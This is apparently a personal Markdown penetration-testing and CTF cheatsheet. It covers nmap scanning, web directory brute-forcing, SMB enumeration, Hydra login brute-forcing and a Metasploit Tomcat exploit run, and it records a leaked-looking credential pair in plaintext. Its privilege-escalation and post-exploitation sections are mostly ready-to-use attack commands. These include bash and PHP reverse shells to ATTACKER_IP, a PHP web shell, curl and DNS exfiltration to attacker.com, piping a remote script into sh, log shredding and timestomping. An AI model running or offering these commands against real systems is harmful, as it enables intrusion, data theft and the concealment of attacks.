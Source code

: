 # Boot2Root Cheatsheet


## **Enumeration**

<details>
  <summary>
    
### Nmap Network Scanning

  </summary>

```nmap -A -sC -sV -oN nmap.txt IP```


## Most Common Commands for Pentesters & Bug Hunters
- **Full Network Recon (Aggressive Scan with OS & Version Detection):**
  ```bash
  nmap -A -T4 192.168.1.1
  ```
- **Quick Scan of Most Common Ports:**
  ```bash
  nmap -F 192.168.1.1
  ```
- **Full Port Scan + Service Detection:**
  ```bash
  nmap -p- -sV 192.168.1.1
  ```
- **Detect Live Hosts in a Network:**
  ```bash
  nmap -sn 192.168.1.0/24
  ```
- **Scan for Vulnerabilities (NSE Scripts):**
  ```bash
  nmap --script vuln 192.168.1.1
  ```
- **Bypass Firewall & Stealth Scan:**
  ```bash
  nmap -sS -T3 -D RND:10 192.168.1.1
  ```

## Basic Scans
- **Scan a single target:**  
  `nmap 192.168.1.1`
- **Scan multiple targets:**  
  `nmap 192.168.1.1 192.168.1.2`
- **Scan an entire subnet:**  
  `nmap 192.168.1.0/24`
- **Scan from a file list:**  
  `nmap -iL targets.txt`
- **No ping scan (for firewalled hosts):**  
  `nmap -Pn 192.168.1.1`

## Port Scanning
- **Scan all 65,535 ports:**  
  `nmap -p- 192.168.1.1`
- **Scan specific ports:**  
  `nmap -p 22,80,443 192.168.1.1`
- **Scan a port range:**  
  `nmap -p 1-1000 192.168.1.1`
- **Scan top 1000 most common ports:**  
  `nmap --top-ports 1000 192.168.1.1`

## Scan Techniques
- **TCP SYN scan (stealthy, default for root):**  
  `nmap -sS 192.168.1.1`
- **TCP Connect scan (for non-root users):**  
  `nmap -sT 192.168.1.1`
- **UDP scan:**  
  `nmap -sU 192.168.1.1`
- **Aggressive scan (OS, versions, scripts, traceroute):**  
  `nmap -A 192.168.1.1`
- **Scan with OS detection:**  
  `nmap -O 192.168.1.1`

## Service & Version Detection
- **Detect running services & versions:**  
  `nmap -sV 192.168.1.1`
- **Aggressive version detection:**  
  `nmap -sV --version-intensity 5 192.168.1.1`

## Firewall Evasion & Stealth
- **Change scan timing (1-5, slow to fast):**  
  `nmap -T4 192.168.1.1`
- **Use decoys to hide real IP:**  
  `nmap -D RND:10 192.168.1.1`
- **Spoof source IP:**  
  `nmap -S 192.168.1.100 192.168.1.1`
- **Fragment packets to bypass filters:**  
  `nmap -f 192.168.1.1`
- **Use a custom MAC address:**  
  `nmap --spoof-mac 00:11:22:33:44:55 192.168.1.1`

## Nmap Scripting Engine (NSE)
- **List available scripts:**  
  `nmap --script-help=default`
- **Scan for vulnerabilities:**  
  `nmap --script vuln 192.168.1.1`
- **Scan for common exploits:**  
  `nmap --script exploit 192.168.1.1`
- **Scan for web vulnerabilities:**  
  `nmap --script=http-vuln* 192.168.1.1`
- **Detect open directories:**  
  `nmap --script http-enum 192.168.1.1`

## Saving & Exporting Scan Results
- **Save results in normal text format:**  
  `nmap -oN scan.txt 192.168.1.1`
- **Save results in XML format:**  
  `nmap -oX scan.xml 192.168.1.1`
- **Save results in all formats:**  
  `nmap -oA scan_results 192.168.1.1`
- **View output in grep-friendly format:**  
  `nmap -oG scan.gnmap 192.168.1.1`

## Specialized Scans
- **Scan for live hosts only:**  
  `nmap -sn 192.168.1.0/24`
- **Detect SMB vulnerabilities:**  
  `nmap --script smb-vuln* -p 445 192.168.1.1`
- **Enumerate SNMP information:**  
  `nmap -sU -p 161 --script=snmp-info 192.168.1.1`
- **Brute-force FTP login:**  
  `nmap --script=ftp-brute -p 21 192.168.1.1`



</details>






<details>
  <summary>

  ### Common Ports and Vulnerabilities Cheat Sheet

  </summary>

## Port Ranges
- **Well-Known Ports (0-1023):** Reserved for system processes and well-known services.
- **Registered Ports (1024-49151):** Assigned by IANA for user applications.
- **Dynamic/Private Ports (49152-65535):** Used for temporary or custom connections.

## Commonly Used Ports & Associated Services
| Port | Service | Description | Common Vulnerabilities |
|------|---------|-------------|------------------------|
| 21   | FTP     | File Transfer Protocol | Anonymous login, brute-force attacks, clear-text transmission |
| 22   | SSH     | Secure Shell | Weak credentials, outdated versions, brute-force |
| 23   | Telnet  | Unencrypted Remote Login | Clear-text transmission, credential theft |
| 25   | SMTP    | Simple Mail Transfer Protocol | Open relays, spam abuse |
| 53   | DNS     | Domain Name System | DNS spoofing, cache poisoning, amplification attacks |
| 80   | HTTP    | Web Traffic | XSS, SQL Injection, Directory Traversal |
| 110  | POP3    | Email Retrieval | Clear-text credentials, brute-force |
| 135  | RPC     | Remote Procedure Call | DCOM/RPC exploits, lateral movement |
| 139  | NetBIOS | Windows File Sharing | SMB relay attacks, enumeration |
| 143  | IMAP    | Internet Message Access Protocol | Brute-force, credential leaks |
| 443  | HTTPS   | Secure Web Traffic | SSL vulnerabilities (Heartbleed, TLS downgrade) |
| 445  | SMB     | Windows File Sharing | EternalBlue, SMBGhost, WannaCry |
| 3306 | MySQL   | Database | SQL injection, weak credentials |
| 3389 | RDP     | Remote Desktop Protocol | Brute-force, BlueKeep exploit |

## Common Vulnerabilities by Service Type
### Web Services (80, 443)
- SQL Injection
- Cross-Site Scripting (XSS)
- Directory Traversal
- Remote Code Execution (RCE)

### File Transfer & Sharing (21, 139, 445)
- Anonymous authentication
- SMB relay attack
- Ransomware infection via SMB vulnerabilities

### Email Services (25, 110, 143)
- Open relay abuse
- Phishing & spoofing attacks
- Credential brute-forcing

### Remote Access (22, 23, 3389)
- Weak authentication
- Brute-force attacks
- Man-in-the-middle (MITM) attacks

</details>

























<details>
  <summary>


  ### Find Directories 
  </summary>

# Finding Web Directories - Cheat Sheet

### 1. **Using `gobuster`**
- **Basic command:**
  ```bash
  gobuster dir -u http://10.10.195.158 -w /home/iftx/Desktop/Hacking/Recon/wordlist/common.txt
  ```

### 2. **Using `ffuf` (Fuzz Faster U Fool)**
- **Basic command:**

```bash
  ffuf -u http://10.10.195.158/FUZZ -w /home/iftx/Desktop/Hacking/Recon/wordlist/common.txt
  ```

```bash
  ffuf -u https://example.com/FUZZ -w /path/to/wordlist.txt -t 5 -p 0.5 -e .php,.html,.txt -fc 403,404

 ```




### 3. **Using `dirb` (Directory Buster)**
- **Basic command:**
  ```bash
  dirb http://10.10.195.158 /home/iftx/Desktop/Hacking/Recon/wordlist/common.txt
  ```

### 4. **Using `nikto` for Web Scanning**
- **Basic command:**
  ```bash
  nikto -h http://10.10.195.158
  ```

### 5. **Using `wfuzz` (Web Fuzzer)**
- **Basic command:**
  ```bash
  wfuzz -c -z file,/home/iftx/Desktop/Hacking/Recon/wordlist/common.txt -u http://10.10.195.158/FUZZ
  ```

### 6. **Using Nmap with `http-enum` Script**
- **Command:**
  ```bash
  nmap --script http-enum -p 80 10.10.195.158
  ```



</details>

## Web Exploitation

<details>
  <summary>

  ### **SMB Enumeration Cheat Sheet**
    
  </summary>


#### **1️⃣ Nmap SMB Enumeration**
```bash
nmap --script smb-enum-shares,smb-enum-users -p 139,445 <target-IP>
```
- Enumerates **SMB users & shares**.

```bash
nmap --script smb-vuln* -p 139,445 <target-IP>
```
- Checks **SMB vulnerabilities**.

---

#### **2️⃣ smbclient - Access SMB Shares**
```bash
smbclient -L //<target-IP> -U ""
```
- Lists available shares **without authentication**.

```bash
smbclient //<target-IP>/share -U user
```
- Connects to a **specific share**.

---

#### **3️⃣ smbmap - Check Share Access**
```bash
smbmap -H <target-IP>
```
- Checks **read/write access**.

```bash
smbmap -H <target-IP> -R
```
- Recursively **lists all files**.

---

#### **4️⃣ CrackMapExec (CME) - SMB Enumeration**
```bash
cme smb <target-IP> --shares
```
- Lists **shared folders**.

```bash
cme smb <target-IP> -u user -p password --shares
```
- Enumerates shares **with credentials**.

---

#### **5️⃣ Enum4linux - SMB Enumeration**
```bash
enum4linux -a <target-IP>
```
- Performs **all** enumeration techniques.

```bash
enum4linux -U <target-IP>   # List users  
enum4linux -S <target-IP>   # List shared folders  
```

---

#### **6️⃣ rpcclient - Windows RPC Services**
```bash
rpcclient -U "" <target-IP>
```
- Connects to **SMB RPC services** without authentication.

```bash
rpcclient -U user <target-IP>
> enumdomusers
```
- Enumerates **domain users**.

---

### ✅ **Best SMB Enumeration Workflow**
1️⃣ **Check open SMB ports** → `nmap -p 139,445 <IP>`  
2️⃣ **Enumerate shares & users** → `nmap --script smb-enum-shares,smb-enum-users -p 139,445 <IP>`  
3️⃣ **Try accessing shares** → `smbclient -L //<IP> -U ""`  
4️⃣ **Check permissions** → `smbmap -H <IP>`  
5️⃣ **Look for vulnerabilities** → `nmap --script smb-vuln* -p 139,445 <IP>`  

🚀 **Use these tools responsibly for pentesting & bug bounty engagements!**


</details>








<details>
<summary>
  
  ### **Login bruteforcing**

</summary>

**Brute-Forcing SquirrelMail Login**


Hydra Command:
```bash
hydra -l milesdyson -P log1.txt 10.10.195.158 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=SquirrelMail - Unknown user or password incorrect" -V -F
```
Medusa Command:
```bash
medusa -h 10.10.195.158 -u milesdyson -P log1.txt -M http -m POST:/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1
```
Both tools brute-force the login for SquirrelMail using a username (milesdyson) and a password list (log1.txt) to find the correct credentials.




 ### **ssh server**
```bash
hydra -l user_ name -P /home/iftx/Desktop/Room/wordlist/rockyou.txt 10.10.181.27 ssh

```
  
</details>


## Metasploit

<details>
  <summary>
   Metasploit Exploitation (Ghostcat - CVE-2020-1938)

  </summary>

1. Launch Metasploit

 `msfconsole`

2. Search for AJP Exploits

   `msf6 > search ajp`
   
```
Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/tomcat_jsp_upload_bypass  2020-02-24       excellent  Yes    Tomcat RCE via JSP Upload Bypass
```
3. Select and Configure the Exploit

   `msf6 > use 0 `
   

`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > show options`


```
Module options (exploit/multi/http/tomcat_jsp_upload_bypass):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s)
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host
```


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RHOSTS 10.10.228.82`


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RPORT 8009`


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > run`


skyfuck:8730281lkjlkjdqlksalks


  
</details>


## Privilege Escalation


<details>
  <summary>
    
### Privilege Escalation via `sudo wget` Exploitation
    
  </summary>


#### **1. Checking Sudo Permissions**  
- Ran `sudo -l` and found:  
  ```bash
  User jessie may run: (root) NOPASSWD: /usr/bin/wget
  ```
  → **`wget` can be executed as root without a password.**  

#### **2. Exploiting `wget` to Read Root Files**  
- **Method 1**: Directly read `/root/root_flag.txt`:  
  ```bash
  sudo wget -i /root/root_flag.txt  # Uses `-i` to read the file
  ```
- **Method 2**: Exfiltrate the file via HTTP (if `-i` fails):  
  ```bash
  sudo wget --post-file=/root/root_flag.txt http://ATTACKER_IP:8000
  ```
  → **Check HTTP server logs for the flag.**  

#### **3. Why This Works**  
- **GTFOBins**: `wget` with `sudo` can read arbitrary files (`-i` or `--post-file`).  
- **No Password**: `NOPASSWD` allows privilege escalation without authentication.  

#### **4. Mitigation**  
- **Restrict `sudo`**: Avoid `NOPASSWD` for commands like `wget`.  
- **Audit**: Regularly check `sudo -l` for all users.  

**Impact**: Critical (root access via file read/write).  
**Tool Reference**: [GTFOBins: wget](https://gtfobins.github.io/gtfobins/wget/).  

--- 

**Next Steps**:  
- Try **writing files** (e.g., `/etc/sudoers`) for a full root shell.  
- Use `sudo wget` to fetch and execute a reverse shell script.  

Need a deeper exploit? Let me know! 🔥
</details>

<details>
  <summary>

    
  ### Privilege Escalation via Misconfigured setuid Binary (systemctl)
    
  </summary>



## Exploit Steps

1. Find setuid binaries owned by root:

```bash
find / -user root -perm -4000 -print 2>/dev/null

```
If /bin/systemctl has setuid, it can be abused.

2. Create a malicious service (root.service):

```
ini
Copy
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'

[Install]
WantedBy=multi-user.target

```

3. Host the service & transfer to target:
Start HTTP server:

```python -m http.server 80```
On target, download:


```wget http://ATTACKER_IP/root.service -O /tmp/root.service```

4. Enable & start the service:
```
systemctl enable /tmp/root.service  # Uses setuid to gain root
systemctl start root

```

5. Get root shell:
Attacker listens:

```
nc -lvnp PORT
```
Service executes reverse shell as root.

### Mitigation
Remove setuid from systemctl:


chmod u-s /bin/systemctl
Restrict service file creation in /tmp (use noexec)

Monitor for unusual service activations

</details>


## Shell
<details>
  <summary>
    
### Automated File Reading with find + while Loop

  </summary>

If cat is disabled but you have bash or sh, you can read all files recursively:

```bash
find / -type f -name "*.txt" -exec sh -c 'echo "File: {}"; while IFS= read -r line; do echo "$line"; done < {}' \; 2>/dev/null
```
This will list and print all .txt files on the system.

Modify -name "*.txt" to target other extensions (e.g., *.php, *.bak).
</details>

<details>
  <summary>

    
  ### **Ultimate Linux Post-Exploitation & Flag Hunting Guide**  

  </summary>


---

*(CTF | Bug Bounty | Pentest | Red Team)*  

## **🔍 1. Finding Flags/Sensitive Files**  
### **A. Quick File Searches**
```bash
# Find flags by name/extension  
find / -type f \( -name "*flag*" -o -name "*.txt" -o -name "*.conf" \) 2>/dev/null  

# Find recently modified files (last 24h)  
find / -type f -mtime -1 2>/dev/null  

# Find hidden files  
find / -name ".*" -ls 2>/dev/null  
```

### **B. Content Hunting (Passwords, API Keys)**
```bash
# Search for common patterns  
grep -rniE "password|api[_-]?key|jwt|secret|flag{" /etc /home /var/www 2>/dev/null  

# Database credentials  
grep -rni "mysql://\|postgresql://" / 2>/dev/null  
```

### **C. Critical Paths**
| Path                 | Purpose                          |
|----------------------|----------------------------------|
| `/home/*/.ssh/`      | SSH private keys                 |
| `/var/www/html/`     | Web app configs (Bug Bounty)     |
| `/etc/shadow`        | Password hashes (Pentest)        |
| `/opt/backups/`      | Database/config backups          |

---

## **🚫 2. Bypassing Restrictions**  
### **A. Read Files Without `cat`**
```bash
# Basic alternatives  
less /path/file      # Interactive  
tail -n 50 /path/file  # Last 50 lines  

# Scripting  
python3 -c "print(open('/etc/passwd').read())"  
perl -pe 'print' /path/file  

# Binary/encoded  
strings /path/file   # Extract text  
base64 /path/file | base64 -d  # Encode→Decode  
```

### **B. Wildcard Bypass**
```bash
/bin/?at /path/file   # Tries /bin/cat, /bin/bat  
```

### **C. Stealthy Exfiltration**
```bash
# DNS (Attacker: `sudo tcpdump -i eth0 udp port 53`)  
xxd -p /path/file | while read line; do dig "$line.domain.com"; done  

# HTTP (Quick)  
curl -X POST --data-binary @/path/file http://attacker.com  
```

---

## **🛠️ 3. Privilege Escalation**  
### **A. Quick Checks**
```bash
# Sudo abuse  
sudo -l  # Check ALL/NOPASSWD  

# SUID/SGID binaries  
find / -perm -4000 -o -perm -2000 2>/dev/null  

# Writable cron jobs  
ls -la /etc/cron* /var/spool/cron  
```

### **B. Kernel Exploits**
```bash
uname -a  # Check version  
searchsploit linux kernel 5.4.0  # Find exploits  
```

### **C. Automated Tools**
```bash
# LinPEAS (Full audit)  
curl -L https://linpeas.sh | sh  

# LinEnum (Quick enum)  
./LinEnum.sh -t  
```

---

## **📜 4. Decoding Data**  
```bash
# Base64  
echo "RkxBR3tleGFtcGxlfQ==" | base64 -d  

# Hex  
echo "464C4147" | xxd -r -p  

# ROT13  
echo "SYNT" | tr 'A-Za-z' 'N-ZA-Mn-za-m'  
```

---

## **🚪 5. Shell Escape**  
```bash
# Spawn TTY shell  
python3 -c 'import pty; pty.spawn("/bin/bash")'  

# Reverse shell  
bash -c 'bash -i >& /dev/tcp/10.0.0.1/443 0>&1'  
```

---

## **🧹 6. Covering Tracks**  
```bash
# Clear logs  
shred -u /var/log/auth.log  

# Timestomp  
touch -r /etc/passwd /root/.bash_history  
```

---

## **🎯 Pro Tips**  
- **CTFs**: Check `/tmp/`, `/opt/`, and home directories.  
- **Bug Bounty**: Hunt for `.env`, `config.php.bak`.  
- **Pentest**: Always check `sudo -l` and SUID binaries first.  

---

### **📥 One-Pager Cheatsheet**  
```markdown
1. Find flags: `find / -name "*flag*" 2>/dev/null`  
2. Read files: `less /path/file` or `python3 -c "print(open('f').read())"`  
3. PrivEsc: `sudo -l`, `find / -perm -4000`  
4. Decode: `echo "BASE64" | base64 -d`  
5. Shell: `python3 -c 'import pty; pty.spawn("/bin/bash")'`  
```


</details>


<details>
  <summary>

  ### Detailed Guide: RSA Private Key 

  </summary>


## **1. Introduction to RSA Private Keys**
An **RSA private key** is a cryptographic key used for secure authentication, typically in SSH, SSL/TLS, and encrypted communications. If exposed, it can lead to **unauthorized system access**, making it a critical finding in security assessments.

### **Key Characteristics**
- **Format**: PEM (Base64-encoded, with `-----BEGIN RSA PRIVATE KEY-----` header).
- **Usage**: SSH logins, decrypting data, or signing certificates.
- **Common Locations**:
  - Web server leaks (`/id_rsa`, `/backup/id_rsa.bak`).
  - Git repository exposures (`.git/config`, `~/.ssh/`).
  - Misconfigured cloud storage (AWS S3, GCP buckets).

---

## **2. Exploitation in Penetration Testing**
### **Step 1: Identify & Validate the Key**
- **Check if the key is valid**:
  ```bash
  openssl rsa -in id_rsa -check
  ```
- **If passphrase-protected**, crack it using:
  ```bash
  ssh2john id_rsa > id_rsa.hash  
  john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
  ```

### **Step 2: Use the Key for SSH Access**
- **Restrict permissions** (SSH requires strict file modes):
  ```bash
  chmod 600 id_rsa
  ```
- **Attempt SSH login**:
  ```bash
  ssh -i id_rsa user@target_ip
  ```
- **Common Usernames** (if unknown):
  ```bash
  for user in $(cat users.txt); do ssh -i id_rsa $user@target_ip -o ConnectTimeout=2; done
  ```

### **Step 3: Privilege Escalation**
- Check `sudo -l` for misconfigurations (as in your `wget` case).
- Look for **writable cron jobs**, **SUID binaries**, or **kernel exploits**.

---

## **3. Bug Bounty Implications**
### **Where to Find Exposed Keys**
- **GitHub/GitLab Repos**: Search for `-----BEGIN RSA PRIVATE KEY-----`.
- **Exposed Backups**: `/backup`, `/www/backup`, `.bak` files.
- **Logs & Environment Variables**: Check `/proc/self/environ`, error logs.

### **Impact**
- **Critical Severity**: Unauthorized server access → data breaches.
- **Report Template**:
  ```
  Title: Exposed RSA Private Key Leading to Server Compromise  
  Description: A private SSH key was found at [URL], allowing unauthorized access to [service].  
  Proof: [Attach key + successful SSH login screenshot]  
  Remediation: Revoke the key, enforce key rotation, disable passwordless auth.  
  ```

---

## **4. CTF-Specific Techniques**
### **Common CTF Challenges**
1. **Hidden Key in Web Source**  
   - Use `curl` or `view-source:` to find keys in HTML comments.
2. **Steganography in Images**  
   - Extract keys using `steghide`, `binwalk`, or `strings`.
3. **Abusing Weak Permissions**  
   - If you get a low-priv shell, check `/home/*/.ssh/` for keys.

### **Automated Tools**
- **TruffleHog**: Scans Git repos for secrets.
- **GitLeaks**: Detects exposed keys in version control.
- **ssh-audit**: Checks SSH server vulnerabilities.

---

## **5. Defensive Measures (For Admins)**
### **Preventing Key Leaks**
- **Never store keys in web directories**.
- **Use SSH certificates** instead of raw keys.
- **Rotate keys periodically** and revoke compromised ones.

### **Hardening SSH**
```ini
# /etc/ssh/sshd_config
PermitRootLogin no
PasswordAuthentication no
PubkeyAuthentication yes
AuthorizedKeysFile .ssh/authorized_keys
```

---

## **6. Legal & Ethical Considerations**
- **Penetration Testing**: Only test authorized systems.
- **Bug Bounty**: Follow the program’s rules (don’t exfiltrate data).
- **CTFs**: Keys are intentionally placed—don’t attack real systems.

---

## **7. Conclusion**
- **Pentest**: Use exposed keys for initial access → escalate privileges.
- **Bug Bounty**: Report exposed keys immediately (critical finding).
- **CTF**: Often a shortcut to flags—check backups, source code, and logs.

### **Final Command Cheatsheet**
```bash
# Test key validity
openssl rsa -in id_rsa -check

# Crack passphrase-protected key
ssh2john id_rsa > hash && john --wordlist=rockyou.txt hash

# SSH login attempt
chmod 600 id_rsa && ssh -i id_rsa user@target
```

</details>

<details>
  <summary>

  # Advanced PHP Reverse Shells & TTY Stabilization

  </summary>



---

*(Pentest/Bug Bounty/CTF Field Manual)*  

## **1. PHP Reverse Shell Techniques**
### **A. Basic Reverse Shell (One-Liner)**
```bash
php -r '$sock=fsockopen("ATTACKER_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```
**Why Use This?**  
- Minimal footprint, works on most PHP-enabled systems  
- Bypasses restrictive environments where full shells are blocked  

### **B. Advanced Proc_Open Variant**
```bash
php -r '$sock=fsockopen("10.0.0.1",4444);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```
**Advantages:**  
- More reliable for complex interactions  
- Better handling of I/O streams  

### **C. Web Shell Integration**
```php
<?php system($_GET['cmd']); ?>
```
**Deployment:**  
1. Upload to vulnerable web directory (e.g., `/uploads/shell.php`)  
2. Execute commands via:  
   ```http
   http://target.com/uploads/shell.php?cmd=whoami
   ```

---

## **2. Listener Configuration**
### **Netcat (Basic)**
```bash
nc -nvlp 4444
```
**Pro Tip:** Use `-v` for verbose mode to confirm connections.

### **Multi-Handler (Recommended)**
```bash
# In Metasploit:
msf6 > use multi/handler
msf6 > set payload php/reverse_php
msf6 > set LHOST YOUR_IP
msf6 > set LPORT 4444
msf6 > exploit
```
**Benefits:**  
- Auto-handles session restoration if disconnected  
- Built-in logging  

---

## **3. TTY Stabilization Methods**
### **A. Python (Gold Standard)**
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
**Follow-up:**  
```bash
CTRL+Z  # Background the shell
stty raw -echo; fg  # Enable raw mode
export TERM=xterm  # Enable full terminal features
```

### **B. Alternatives When Python Unavailable**
| Command | Use Case |
|---------|----------|
| `script -qc /bin/bash /dev/null` | Systems with `script` binary |
| `socat exec:'bash -li' pty,stderr,setsid,sigint,sane` | Requires socat installation |
| `perl -e 'exec "/bin/bash";'` | Perl-based systems |

### **C. Full Upgrade Sequence**
1. Spawn TTY  
2. Set terminal type:  
   ```bash
   export TERM=xterm-256color
   ```
3. Fix stty:  
   ```bash
   stty rows 55 columns 238  # Adjust to your terminal size
   ```

---

## **4. OPSEC Considerations**
### **A. Clean Execution**
```bash
# Disable history in current session
unset HISTFILE
```

### **B. Log Evasion**
```bash
# Overwrite PHP error logs after exploit
echo "" > /var/log/apache2/error.log
```

### **C. Traffic Obfuscation**
```bash
# Encrypted reverse shell (OpenSSL)
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect ATTACKER_IP:4444 > /tmp/s; rm /tmp/s
```

---

## **5. Troubleshooting Guide**
| Issue | Solution |
|-------|----------|
| **Shell dies immediately** | Use `while true; do nc -lvp 4444; done` on listener |
| **No Python/socat** | Try `awk 'BEGIN {system("/bin/bash")}'` |
| **Firewall blocking** | Use common ports (80, 443) or ICMP/DNS tunneling |

---

## **6. Real-World Applications**
### **Bug Bounty**  
- Use in blind RCE scenarios (e.g., Log4j exploits)  
- Combine with SSRF to pivot internally  

### **CTF Challenges**  
- Bypass restricted shells via PHP wrappers:  
  ```bash
  php -r "include('data://text/plain,<?php system(\$_GET[\"cmd\"]) ?>');"
  ```

### **Pentest Engagements**  
- Chain with credential theft:  
  ```bash
  php -r 'echo file_get_contents("/etc/passwd");'
  ```

---

## **7. Reference Cheatsheet**
```markdown
1. Start Listener:    `nc -nvlp 4444`
2. PHP Shell:        `php -r '$s=fsockopen("IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`
3. Stabilize:        `python3 -c 'import pty; pty.spawn("/bin/bash")'`
4. Full Upgrade:     `export TERM=xterm; stty raw -echo; fg`
```

---

**Pro Tip:** Bookmark this guide and save the cheatsheet as `shells.txt` in your toolkit. For a **PDF version** with clickable TOC, reply "PDF please"!  

Need Windows reverse shell equivalents? Let me know. 🚀
</details>
